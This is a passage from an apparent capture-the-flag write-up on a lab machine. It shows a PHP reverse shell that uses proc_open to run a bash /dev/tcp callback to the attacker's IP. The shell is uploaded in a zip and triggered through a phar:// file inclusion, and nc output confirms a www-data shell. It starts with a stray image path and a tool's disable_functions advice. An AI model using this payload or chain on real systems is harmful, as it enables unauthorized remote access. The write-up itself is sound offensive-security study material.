                             authors: __c3rb3ru5__, $_SpyD3r_$
    
    
    Please add the following functions in your disable_functions option: 
    proc_open
    If PHP-FPM is there stream_socket_sendto,stream_socket_client,fsockopen can also be used to be exploit by poisoning the request to the unix socket
    

#### proc_open

The [PHP docs](https://www.php.net/manual/en/function.proc-open.php) for
`proc_open` describe it as:

> similar to [popen()](https://www.php.net/manual/en/function.popen.php) but
> provides a much greater degree of control over the program execution.

Some Goolging for “proc_open reverse shell” leads me to [this
repo](https://gist.github.com/noobpk/33e4318c7533f32d6a7ce096bc0457b7#file-
reverse-shell-php-L62), where `proc_open` is called on line 69:

![image-20230117164456448](https://0xdfimages.gitlab.io/img/image-20230117164456448.png)

I’ll need to set `$shell` and `$descriptospec`. `$pipes` is not necessary
since I’m just going to spawn a reverse shell, not try to read / write out of
the process from PHP.

My reverse shell looks like, using a [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw) as the payload:

    
    
    <?php
            $descspec = array(
                    0 => array("pipe", "r"),
                    1 => array("pipe", "w"),
                    2 => array("pipe", "w")
            );
            $cmd = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.6/443 0>&1'";
            $proc = proc_open($cmd, $descspec, $pipes);
    

I’ll zip it:

    
    
    oxdf@hacky$ zip rev.0xdf rev.php 
      adding: rev.php (deflated 35%)
    

And upload it. Now I trigger it just like with `phpinfo` above, getting the
latest uploads directory, and visiting
`/?page=phar://uploads/c96c440052e65f8e167cfe6248981ad9/rev.0xdf/rev`.

There’s a connection at my listening `nc`:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.177 60210
    bash: cannot set terminal process group (907): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@updown:/var/www/dev$ 
    